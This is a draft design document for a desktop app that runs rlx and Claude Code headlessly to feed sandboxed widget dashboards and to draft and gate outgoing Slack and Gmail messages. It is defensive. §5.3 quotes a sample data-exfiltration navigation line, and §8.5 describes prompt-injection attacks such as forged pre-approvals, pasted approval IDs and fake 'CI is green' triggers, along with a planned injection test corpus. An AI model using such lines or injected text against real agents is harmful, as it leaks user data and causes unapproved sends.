


# rlxapp architecture

Status: draft for the owner's review, 2026-11-25. It describes the target design and doesn't depend on the skeleton and CI being built in parallel.

Conventions: **(E*n*)** and **(R*n*)** cite the [evidence log](#18-evidence-log) (Claude Code 2.1.332, rlx 0.10.1); rlx file:line links are permalinks to commit `c6b523c3`; **unconfirmed** marks anything not yet checked.

## 1. Goals and budgets

rlxapp is a desktop app for people who don't use a terminal (GTM teams, team leads, working professionals). It runs rlx and Claude Code in the background and shows results as widget dashboards; developers keep the rlx TUI.

**Name** (owner decision): users see **rlx** (rlx.app, window title, menus, installers); `rlxapp` is only the repo. The bundle ID `studio.aisquare.rlx` is fixed before any release, since it keys app data and Keychain items. The bundle's inner executable stays `rlxapp`, so a Linux `/usr/bin/rlx` never clashes with the CLI.

**Stack: Tauri 2, a Rust core and a web UI in the system webview** (owner decision, 2026-11-25, chosen over GPUI).
- **Discord, the visual reference.** Discord's CTO said on X (2026-11-04) that its desktop client is moving from Electron to Rust on GPUI, keeping a webview only for embedded content (YouTube, Activities). Discord has made no announcement of its own; both sources report those posts ([InfoQ](https://infoq.com/news/2026/11/discord-rust-rewrite-gpui-zed), [Inven Global](https://www.invenglobal.com/articles/28182/discord-cto-confirms-the-desktop-and-mobile-apps-are-being-rebuilt-in-rust)).
- **Why a webview for us.** Agent-made HTML widgets are that kind of embedded content and the app's core, so a pure-Rust UI would still need a webview for most of the screen.

| Budget | Target | How it is measured |
|---|---|---|
| Installer | ≤ 25 MB | CI fails any release artifact (`.dmg`, `.exe`, `.AppImage`/`.deb`) over the limit. |
| Idle RAM | ≤ 150 MB | Release build, cached default dashboard, 30 s idle, no run in flight, median of 3: `phys_footprint` (macOS), private working set (Windows) or PSS (Linux), summed over the app and its webview helpers; rlxd separately. |
| Cold start | ≤ 1.5 s | Process spawn to first dashboard paint (`performance.mark`), median of 5 launches after a full quit, Apple silicon. |

Known risk: WebKitGTK on Linux, tested in CI from the first commit.

## 2. Process model



- **Process supervisor.** Starts, watches and restarts rlxd, and stops the app's rlx processes around upgrades (§11); rlxd owns run process trees.
- **Engine interface.** The only boundary to agentic work, all of which goes through rlx (§15); the core never spawns `claude`.

```rust
#[async_trait]
pub trait Engine: Send + Sync {
    async fn status(&self) -> Result<EngineStatus>;            // installed, signed in
    async fn sign_in(&self) -> Result<Stream<SignInStep>>;     // open_url, waiting, signed_in, error
    async fn connectors(&self) -> Result<Vec<Connector>>;      // §4
    async fn run(&self, req: RunRequest) -> Result<RunHandle>; // Stream<RunEvent>
    async fn resume(&self, run: &RunId, reply: String) -> Result<RunHandle>;
    async fn cancel(&self, run: &RunId) -> Result<()>;
}
pub struct RunRequest {
    pub kind: RunKind,       // Task | WidgetRefresh | Watch | Check | SendExecutor | WidgetAuthor | ParseInstruction
    pub prompt: String,
    pub allowed_tools: Vec<String>,     // empty = no tools
    pub needs_connectors: Vec<String>,  // must be "connected" in system/init (§4)
    pub output_schema: Option<serde_json::Value>,
    pub session_id: Uuid,               // for resume
    pub gate: Arc<dyn ToolGate>,        // decides every write-classified call
}
```

`FakeEngine` (scripted scenarios, recorded stream-json replay) drives the shell and tests now; `RlxEngine`, on rlxd's crate, follows rlx 0.10.3. `RunEvent` maps stream-json (E6): `system/init` → `Started` with connector states, `assistant` → `Text`/`ToolCall`, `rate_limit_event` → `RateLimited`, `result` → `Finished` (tool results unconfirmed).

## 3. Auth and Claude sign-in without a terminal

Claude Code is the only auth; the app has no accounts or tokens. `claude auth status --json` reports `loggedIn`, `authMethod: "claude.ai"` and `subscriptionType` (E3, E4); `RlxEngine.status()` reads `rlx --json accounts list` (R3), version-pinned until it has a `schema_version` (ask A). AISquare's own `rlx login` (R2) never appears in the app.

**Sign-in without a terminal.** **Sign in with Claude** calls `Engine.sign_in()`, streaming `open_url` (opened in the system browser), `waiting`, then `signed_in` or `error`.
- `rlx accounts add` refuses `--json` and needs a TTY ([accounts.py:1197-1210](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/src/aisquare/cli/accounts.py#L1197-L1210)). Ask G: a non-TTY sign-in emitting these steps as JSON lines.
- `claude auth login` defaults to `--claudeai` (E3); whether it completes without a TTY is unconfirmed. Last resort: a hidden pseudo-terminal that surfaces only the URL.

**Keychain (ask E, answered from rlx's code).** rlx reads Claude Code's login via `/usr/bin/security` ([claude_accounts.py:1069](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/src/aisquare/core/claude_accounts.py#L1069)), already on the item's access list, so a GUI app triggers no prompt; only a locked Keychain shows its unlock dialog (rlx waits 5 s, [:1071](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/src/aisquare/core/claude_accounts.py#L1071)). The app never reads the item itself: it isn't on the access list. It passes `CLAUDE_CONFIG_DIR` and `CLAUDE_SECURESTORAGE_CONFIG_DIR` to rlx from a login shell (`$SHELL -lc`): the item name is hashed from them ([:1139](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/src/aisquare/core/claude_accounts.py#L1139)), and a Finder-launched app lacks shell-profile variables.

**Never pass `--bare`:** it skips OAuth and the keychain (E2). The app's own model calls are engine runs on the user's plan; usage comes from `rlx --json accounts list --usage` (R3).

## 4. Connectors

Slack, Gmail and others are claude.ai MCP connectors on the user's account, mounted by Claude Code under a claude.ai login; the app never holds their credentials.

**Headless runs load them, with a race (E6, E9).** From an empty directory with `--setting-sources project`, `system/init` lists `claude.ai <Connector>` servers (`mcp_servers`), their `mcp__claude_ai_<Connector>__<tool>` tools and `apiKeySource: "none"`, but only what has connected by then:
- stdin left open: both connectors `connected`, 67 tools (E6); or one `connected`, one `pending`, 8 tools (E9);
- stdin closed (`</dev/null`): `mcp_servers: []`, no connector tools (E9).

Unconfirmed: whether a `pending` connector becomes usable mid-run, and headless tool calls (none made, by rule).

**So a run confirms its connectors.** If `system/init` lacks a `connected` entry for any of `needs_connectors`, the core cancels and retries with backoff (3 tries), then marks it `needs-auth` or `failed`. An unconfirmed run's output is discarded: a widget never shows an empty "nothing needs you", only its last good data, marked stale. Ask J moves this into rlxd.

**Path:** core → `Engine` → rlx → Claude Code → claude.ai. Today `rlx --json connectors list` is a hidden stub exiting 70 (R4, [app.py:249](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/src/aisquare/cli/app.py#L249), [connectors.py:8-25](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/src/aisquare/services/connectors.py#L8-L25)). **Connect Slack** opens claude.ai's connector settings (URL unconfirmed); `claude mcp login <name>` (E5) is a re-auth candidate, non-TTY behaviour unconfirmed.

```ts
interface Connector {
  id: string;
  status: "connected" | "needs-auth" | "pending" | "failed";
  tools: { name: string; access: "read" | "write" | "unknown" }[];
}
```

**Access is data, not code:** MCP `readOnlyHint` if exposed (ask H), else a shipped table, else name heuristics (`get`, `list`, `search`, `read`). `write` and `unknown` tools go through the send gate (§8).

## 5. Widget runtime

**Build once, extend automatically.** A widget is a manifest, one self-contained HTML file and an optional data job; the core runs the job through the engine and hands the widget validated JSON to render. Connectors plug in through data jobs, never per-service UI code.

### 5.1 Manifest

```ts
type WidgetManifest = {
  schemaVersion: 1;
  id: string;                  // "slack-digest"
  version: number;             // bumped on every change; old versions kept
  title: string;
  source: "builtin" | "agent" | "user";
  size: { w: number; h: number };    // grid cells, 1–4
  entry: "index.html";         // one file, ≤ 512 KB, inline JS/CSS
  data?: DataJob;              // absent for clock/timer/pomodoro
  actions: ("openUrl" | "notify" | "draftSend" | "refresh")[];
  settings?: JSONSchema;
};
type DataJob = {
  connector: string;           // "claude.ai Slack"
  tools: string[];             // read tools only
  prompt: string;              // template: {{settings.*}} {{state.cursor}} {{owner}}
  output: JSONSchema;          // validated again by the core
  every: { minutes: number } | { cron: string };
  runWhen: "app-open" | "background";
};
```

### 5.2 Data contract

```ts
type ToWidget =   // core → widget
  | { type: "init"; v: 1; widgetId: string; settings: object; state: object; theme: Theme }
  | { type: "data"; v: 1; data: unknown; fetchedAt: string; stale: boolean }
  | { type: "status"; v: 1; status: "refreshing" | "ok" | "needs-auth" | "error" };
type FromWidget = // widget → core
  | { type: "ready" | "refresh"; v: 1 }
  | { type: "setState"; v: 1; state: object }       // ≤ 64 KB, persisted
  | { type: "openUrl"; v: 1; url: string }          // after a click; only URLs in the current data
  | { type: "notify"; v: 1; title: string; body: string; at?: string }
  | { type: "draftSend"; v: 1; connector: string; destination: string; body: string } // ALWAYS a Draft
  | { type: "resize"; v: 1; h: number };
```

Invalid data never reaches the widget (it keeps its last good data and shows `error`); widgets can't call tools, and undeclared actions are dropped.

### 5.3 Rendering: sandboxed iframe, CSP, bridge

- **The iframe.** `<iframe sandbox="allow-scripts">`, **no `allow-same-origin`**, no popups, top navigation or forms. The opaque origin has no cookies or storage and no access to the parent DOM or Tauri IPC.
- **Serving.** A custom scheme (`rlxwidget://<id>/<version>`) serves the document with the CSP as a response header the widget can't remove, also injected as the first `<meta>`:
  `default-src 'none'; script-src 'unsafe-inline'; style-src 'unsafe-inline'; img-src data: blob:; font-src data:; connect-src 'none'; frame-src 'none'; form-action 'none'; base-uri 'none'`
  Connector images arrive as data URLs fetched by the core.
- **Navigation.** CSP has no `navigate-to`, so a widget could leak data by navigating itself (`location.href = "https://x/?" + data`). The host denies subframe navigation off `rlxwidget://` (WKWebView navigation policy, WebView2 `FrameNavigationStarting`, WebKitGTK `decide-policy`); whether Tauri 2's `on_navigation` sees subframes is unconfirmed.
- **The bridge.** On load the UI posts `init` and a `MessageChannel` port to `iframe.contentWindow` (target `"*"`, as the origin is opaque); traffic then uses the port. The UI accepts only messages whose `event.source === iframe.contentWindow`, validating and rate-limiting them (20/s); the core re-validates actions.
- **Skeleton tests** on all three webviews: no `__TAURI_INTERNALS__` in the iframe, the CSP header enforced, and `fetch`, self-navigation and `RTCPeerConnection` to a local listener all blocked. Until they pass, "no network" is unconfirmed, and agent-made widgets stay off where they fail.

### 5.4 Agent-made widgets: create, store, update

- **Create.** The owner asks ("a widget with my open PRs") or the agent suggests one. A tool-less `WidgetAuthor` run (SDK reference, manifest schema, read tools) returns `{manifest, html}` via `--json-schema` (E2). The core checks schema, read-only tools, size and no external URLs, previews a dry-run refresh, and the owner clicks **Add**.
- **Store.** `widgets/<id>/<version>/{manifest.json,index.html}` plus a SQLite registry row. Built-ins are read-only; **Customize** copies one.
- **Update.** "Only show DMs" makes a new version: previewed, one-click apply, reversible; added tools show as a diff. After three validation failures in a row the widget offers **Fix with &lt;AgentName&gt;**.

### 5.5 A new connector gets a widget with zero new code

A new connector in `Engine.connectors()` gets a `generic-connector` instance from a template: the connector, its read tools and a generic prompt ("up to 10 recent items that matter to {{owner}}; set needsYou when …"). One schema and renderer serve all:

```ts
type Feed = { summary: string; items: { title: string; subtitle?: string; time?: string;
              url?: string; needsYou: boolean; why?: string }[] };   // schemas/feed.v1.json
```

No Rust or TS change per connector; **Make it better** hands it to §5.4.

### 5.6 First widgets

Owner decisions, 2026-11-25:

| Widget | Data job | Shows | Actions |
|---|---|---|---|
| Slack digest | Every 15 min (adjustable); incremental via `state.cursor` | The agent judges intent: in the owner's channels it flags questions and requests aimed at them, @mention or not; the rest is summarized | Open; **Draft reply** |
| Gmail dashboard | Every 15 min; digest daily | Five sections, one `Feed` each: needs a reply (with a drafted reply), important unread, key senders (owner-chosen), a daily digest with drafted replies, today's meetings (owner question 7) | Open; **Review draft** |
| Clock, timer, pomodoro | None | — | `notify {at}`, fired by the core even if the widget is unloaded |
| Generic | §5.5 | `needsYou` | Open; Draft |

Drafted replies are Drafts (§8).

## 6. Scheduler and long-running tasks

Jobs are the `RunKind`s (§2), all engine runs; a `Watch` evaluates an approval trigger.



- **needs-you:** a draft awaits approval, the agent asked a question (a task's final output is `{status, summary, question?}`), a connector failed its init check (§4), or a tool was denied; the tray badge and notifications count them.
- **Streaming:** `RunEvent`s go to the transcript and the event bus; runs on screen get partial text (`--include-partial-messages`, E2).
- **Concurrency:** at most 2 tasks; refreshes run singly and coalesce; `RateLimited` backs everything off; refreshes pause above a plan-usage threshold.
- **Cancel:** `Engine.cancel()` has rlxd kill the run's process tree; the run becomes `failed {reason: "cancelled"}`, keeping partial output.
- **Resume:** runs store a session ID (`--session-id`, `--resume`, E2; ask I). On launch, interrupted tasks resume and refreshes rerun, but **an interrupted `SendExecutor` is never retried**: it goes to needs-you ("this may have sent; check first").
- **Background:** closing the window keeps the app in the menu bar or tray, with a badge and **Quit**; launch at login is opt-in. Once rlxd's scheduler ships, jobs register there so they can run with the app quit (hub question 2).

## 7. Personal agent and sign-off

Onboarding asks for the agent's name (any, 1–32 characters) and the owner's display name; both go into each run's `--append-system-prompt` (E2). The URL lives in one constant, exposed to the UI by a command; a CI grep fails the build if it appears anywhere else:

```rust
pub const APP_HOMEPAGE_URL: &str = "https://github.com/AISquare-Studio/rlxapp"; // until a homepage exists
```

The core renders the sign-off; the model never writes it. With agent "Nova" and owner "Alex":

| Target | Rendered |
|---|---|
| Slack mrkdwn | `— Nova, Alex's <https://github.com/AISquare-Studio/rlxapp\|AI Agent>` |
| Gmail HTML part | `<p>— Nova, Alex's <a href="https://github.com/AISquare-Studio/rlxapp">AI Agent</a></p>` |

Plain-text parts put the URL in parentheses. Names are escaped per target, and multipart email gets the sign-off in both parts. The gate requires the body to end with the exact sign-off, else the call becomes a Draft with it appended.

## 8. Send safety

### 8.1 One gate, one path

**The gate.** Every `write` or `unknown` tool call (§4) reaches the core's send gate first. That needs rlxd to forward permission requests (ask F); Claude Code offers `--permission-prompts host` and `--settings` hooks (E2), protocol unconfirmed. An unreachable gate means deny.

**One path.** Every send becomes a **Draft** (connector, tool, destination, body with sign-off, thread), and the original call is denied with "saved as draft; do not retry". The mode decides who approves it:

| Mode | Approved by | Notes |
|---|---|---|
| **Draft** (default) | The owner: Approve, Edit or Discard | Every connector starts here |
| **Standing approval** | A confirmed approval plus the send-time check (§8.3) | Any mismatch or doubt leaves a Draft |
| **Auto** (opt-in per connector) | A 10 s hold with **Undo** | Labelled risky, typed confirmation, 10/hour/connector by default, logged |

**Sending.** A `SendExecutor` run, holding only the draft's tool, gets the exact payload; the gate allows only a call whose input hash matches, else denies, retries once, then raises needs-you. **Undo:** the Auto hold, and afterwards **Delete** where a delete tool exists (Slack's is unconfirmed).

### 8.2 Standing approvals: data model

```ts
type StandingApproval = {
  id: string;                         // "apr_…", minted only by the core
  status: "proposed" | "active" | "used" | "revoked" | "expired";
  confirmedAt?: string;               // set only by the owner's click
  instruction: { text: string; composerInputId: string };
  connector: string;
  tools: string[];
  destination: { id: string; label: string };   // exact ID + "#dev"; no wildcards
  trigger: { kind: "now" } | { kind: "schedule"; cron: string }
         | { kind: "condition"; description: string; watch: DataJob;
             match: { path: string; equals: string }[] };  // metadata, compared in code; [] = text-based
  content: { description: string; maxChars: number; allowBroadcast: false };
  expiry: { kind: "once" } | { kind: "untilRevoked" };
};
```

**Lifecycle.** The owner types "when CI is green, post in #dev asking for approval". A tool-less `ParseInstruction` run, seeing only that text, proposes the fields as a card (*"Nova will post in #dev when CI on main is green, asking for approval to deploy. Once."*); **Confirm** activates it. Edits revoke and re-propose; `once` approvals become `used` after sending. The Approvals tab lists and revokes them.

### 8.3 Send-time check

1. **Code checks:** the approval is active, unexpired and bound to the run; connector, tool, destination ID and recipients match exactly; the body is within `maxChars`, has no broadcast mention and carries the sign-off.
2. **Model check:** a tool-less, session-less `Check` run returns `{verdict, reason}` (`match`, `mismatch` or `unsure`) via `--json-schema` (E2), seeing only the approval's description, the instruction and the outgoing body, quoted as data.
3. **Decision:** send only if every code check passes and the verdict is `match`; anything else, errors and timeouts included, leaves a Draft with the reason.

### 8.4 Audit log

An append-only, hash-chained `audit` table (`prev_hash` per row), shown in Activity, exportable as JSONL, never leaving the machine. Rows hold time, actor, event (`draft.*`, `approval.*`, `check.*`, `send.*`, `mode.changed`), connector, destination, body hash, verdict and result (message ID or permalink).

### 8.5 Prompt injection

**Rule: connector content can never create, widen or satisfy an approval.**

- **Create.** Approvals come only from composer text (the UI tags its origin), parsed by a tool-less run and activated by the owner's click; the proposal API rejects runs that read connector data, and models never mint IDs.
- **Widen.** Approvals are immutable; destinations are exact IDs.
- **Satisfy.** The core binds a run to an approval when its trigger fires. "Pre-approved by Alex" or a pasted `apr_…` does nothing: the gate never reads message text, the checker never sees connector content, and recipients are checked in code. A widget's `draftSend` is always a Draft.
- **Triggers (proposed default).** A connector-sourced condition fires a standing send only on verified structured metadata (sender identity, channel, status fields), which the core reads from the raw tool result at `match.path` and compares in code, never on message text. A text-based condition ("when Sam says it's green") yields a Draft, so a forged "CI is green" can't send. That rlxd exposes raw tool results is unconfirmed. Owner question 6.
- **Auto.** Injected text could send to any destination the connector allows; hence opt-in, labelled, rate-limited, held and logged.
- **Tests.** CI runs an injection corpus (fake approval IDs, look-alike channels, text-only triggers) against the gate on `FakeEngine`.

## 9. Modes proposal

**A (recommended): one app with progressive disclosure.** Everyone sees Home (widgets), Tasks, Inbox (drafts, needs-you), Activity and Settings; a Developer toggle adds Fleet, Boards, read-only Panes and **Open in terminal** (`rlx ui`, R2). Pros: one install, updater and codebase; reversible. Cons: developer features must stay out of the way.

**B (alternative): two editions from one codebase**, "rlx" and "rlx Dev": more focused, but double the artifacts and QA.

The shell implements A; the owner decides after seeing it.

## 10. Brand and themes

Owner decision, 2026-11-25: rlx's own `r\x` mark, no new logo.
- **The mark.** rlx's [docs/assets/rlx-logo.svg](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/docs/assets/rlx-logo.svg): JetBrains Mono Medium glyphs as paths, fill #2F74F0, viewBox 1606×940, copied unchanged with its SIL OFL 1.1 attribution. Recolours change only the fill.
- **Where.** App icon (the mark on a #08090B tile; all icons from one 1024 px master via `tauri icon`), monochrome tray template, header, splash, about box, installers, favicon, README, sign-off link.
- **Themes.** Default "rlx" = the TUI's `RLX_THEME` ([theme.py:80](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/src/aisquare/cli/ui/theme.py#L80)): primary #2F74F0 on #08090B, with ground-coloured labels on blue. Plus a light variant, more themes and a user-picked accent, all as CSS variables that widgets get in `init` (§5.2).
- **Tests.** Every theme passes WCAG 4.5:1 for text and 3:1 for UI parts; icon, tray and header path data equal the SVG's; "rlx" tokens equal `RLX_THEME`.

## 11. Install and update

**The app.** Tauri's updater checks signed manifests on GitHub Releases and asks first: notarized `.dmg` (arm64 first), per-user NSIS `.exe` with the WebView2 bootstrapper, `.AppImage`/`.deb` (WebKitGTK 4.1). Local builds are `--bundles app` only (no DMG); DMGs and installers come from CI.

**The engine.** rlx (with rlxd) and Python are not bundled (the 25 MB budget); first run runs rlx's installer behind a progress view. Needs (ask B) against today:

| Need | Today |
|---|---|
| JSON-lines progress; no sudo prompt | Text output; `sudo` without `-n` ([install.sh:355-370](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/install.sh#L355-L370)) |
| A pinned version | An unstamped copy fetches the latest release's script ([install.sh:560-568](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/install.sh#L560-L568)) |
| `[serve]` by default | No extras ([install.sh:1494-1510](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/install.sh#L1494-L1510), [pyproject.toml:110-123](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/pyproject.toml#L110-L123)) |
| Native Windows (ask D) | `install.ps1` hands off to WSL2 ([install.ps1:13-21](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/install.ps1#L13-L21)) |

rlx's installer also installs Claude Code from `CLAUDE_INSTALLER_URL` ([install.sh:61](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/install.sh#L61)) when `wants_claude` holds ([:292-293](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/install.sh#L292-L293)); Claude Code also has `claude install` and `claude update` (E8).

**Updates.** Claude Code updates itself. For rlx (ask E), `rlx --json upgrade --yes` (`--yes` is needed off a terminal, R5) refuses while an rlx UI, a Windows launcher or another program's `rlx` is present ([lifecycle.py:442-446](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/src/aisquare/services/lifecycle.py#L442-L446)). Other rlx processes don't block it on macOS and Linux but run mixed old and new code until restarted ([:425-431](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/src/aisquare/services/lifecycle.py#L425-L431)); on Windows they would likely fail the reinstall (inferred, unconfirmed). So the app checks `rlx --json upgrade --check` (fields at [install.py:96-105](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/src/aisquare/cli/install.py#L96-L105)), stops its rlx processes (rlxd included), upgrades and restarts them (ask K).

**Branches.** Feature PRs target the release train `rc/0.1.0`, which reaches `main` only on the owner's go; `main` otherwise holds only what GitHub reads there (guarded CI, CODEOWNERS, templates).

## 12. Platform matrix for v0

| | macOS | Windows | Linux |
|---|---|---|---|
| v0 bar | Polished; budgets enforced | Built, smoke-tested in CI | Same |
| Arch | arm64 | x64 | x64 |
| Webview | WKWebView | WebView2 | WebKitGTK 4.1 (**risk**) |
| Tray | Menu bar (template icon) | System tray | AppIndicator (GNOME needs an extension) |
| Engine | `FakeEngine`, then `RlxEngine` | Same; rlx's installer needs ask D | Same |

## 13. Testing

- **UI:** a ui-tester agent drives the web UI on Vite with `FakeEngine` (no rlx, Claude Code or network).
- **macOS native:** window, tray and menu checks capture only the app's window with `screencapture -l <windowid>` and drive menus with osascript; never full-screen captures.
- **Windows and Linux:** tauri-driver in CI, with screenshots as artifacts. Every CI run also launches, renders, runs the §5.3 tests and quits.
- **Every UI PR** carries a screenshot gallery.

## 14. Local storage and privacy

**Where data lives:** the OS app-data directory holds `rlxapp.db` (SQLite, WAL: runs, jobs, drafts, approvals, audit, widget registry, settings), `widgets/`, `transcripts/` (30 days by default) and rotated `logs/`.

**Privacy.** The app stores no credentials. No telemetry or crash reporting by default; the app's only own traffic is the update check, which can be turned off. **Erase local data** deletes everything.

## 15. rlx dependency

**The split, rejected.** The survey's direct-`claude -p` simple mode was rejected by the owner on 2026-11-25: all agent work, in both modes, goes through rlx.

**The engine is rlxd** (owner decision, 2026-11-25): a long-running Rust daemon in rlx's Cargo workspace, with a library crate rlxapp depends on, shipped with rlx. It replaces tmux as process host (portable-pty, ConPTY on Windows), runs headless Claude Code emitting stream-json, takes hooks over a local socket, runs the user scheduler and pushes events to the TUI, rlxapp and Remote. Python stays the orchestration brain and TUI. rlx 0.10.3 carries rlxd, native Windows, the connector surface, a non-project home and asks A–D; rlx's `docs/plans/0.10.3-handoff.md` drafts the app contract.

**What rlxd wraps** (E2, E7, E10; connectors in §4):
- **Streaming.** `-p --output-format stream-json --verbose`. **`--verbose` is required**: without it, `claude` exits 1 with "When using --print, --output-format=stream-json requires --verbose" (E10). `--include-partial-messages` adds partial chunks; `--input-format stream-json` takes streaming input.
- **Hooks and trust.** User hooks run headless; `-p` skips the trust dialog, so runs start in the app's own home directory.

**Gaps,** re-checked at `c6b523c3`; `FakeEngine` stands in until each closes:
1. No native Windows ([install.ps1:13-21](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/install.ps1#L13-L21)).
2. tmux-only fleet, no headless runner (R2, [install.sh:1631](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/install.sh#L1631)).
3. No connector surface (R4, [app.py:249](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/src/aisquare/cli/app.py#L249)).
4. No user scheduler ([watcher.py:48-108](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/src/aisquare/cli/watcher.py#L48-L108), R8).
5. No app-facing push: `serve` is MCP (R6); `remote` has a password, auto-off and ngrok (R7).
6. Installer not built for unattended GUI use (§11).
7. Sign-in needs a TTY (§3).
8. No versioned contract: errors drop `message` ([common.py:1261-1269](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/src/aisquare/cli/common.py#L1261-L1269)); `doctor --fix` prints to stdout ([root.py:160-162](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/src/aisquare/cli/root.py#L160-L162)).
9. Output is screen capture ([tmux.py:10](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/src/aisquare/core/tmux.py#L10)).
10. Bound to a project folder ([workspace.py:29](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/src/aisquare/core/workspace.py#L29)).
11. Upgrade blocked while the UI runs ([install.py:100-101](https://github.com/AISquare-Studio/rlx/blob/c6b523c3/src/aisquare/cli/install.py#L100-L101), §11).

**Asks.** From the survey: **A** a versioned JSON envelope (`schema_version`, `ok`, `data`, `error`) with published schemas; **B** a silent installer mode (§11); **C** a localhost event stream with token auth (rlxd's push); **D** native Windows for install, accounts, upgrade and doctor; **E** upgrade-while-running and the Keychain prompt, answered (§3, §11). This doc adds:
- **F.** rlxd forwards every tool permission request to the app, or lets it inject a PreToolUse hook. **Send safety depends on this.**
- **G–I.** Non-TTY sign-in with JSON-lines steps (§3); connector listing with read/write annotations and no model turn (§4); session-ID and cancel pass-through (§6).
- **J.** Runs name their connectors; rlxd holds stdin open and starts the first turn only once they are `connected`, else fails naming the rest (§4).
- **K.** Long-lived non-UI rlx processes, rlxd included, register so `upgrade` counts them (§11).

## 16. Open questions

**For the owner:**
1. Mode A or B (§9)?
2. Should Auto require a destination allowlist? Is 10 s the right hold?
3. Are `once` and `untilRevoked` enough expiry options?
4. Does the 150 MB idle budget include rlxd?
5. Who holds the Apple and Windows signing certificates?
6. Condition triggers (§8.5): fire standing sends only on structured metadata, text-based ones falling back to a Draft?
7. Gmail "today's meetings": from Gmail invites, or a Calendar connector?

**For the hub:**
1. Asks F–K (F blocks send safety).
2. Does rlxd start at login, so jobs run with the app quit? Socket or embedded crate?
3. rlxd's event transport, auth and `schema_version` (ask C).
4. Where is the non-developer home, and do user hooks load in app runs?

## 17. Traceability

| Brief bullet or owner decision | Section |
|---|---|
| Native on three OSes; runs rlx in the background | §2, §6, §11, §12 |
| No terminal needed; developers keep the TUI; Developer toggle | §3, §9, §16 |
| Sleek and light; Discord reference; Tauri 2, budgets, WebKitGTK | §1, §12 |
| Long-running tasks; closing keeps it in the tray | §6, §15 |
| Claude Code is the only auth | §3, §4 |
| Widgets: build once, extend automatically; generic and agent-made | §5 |
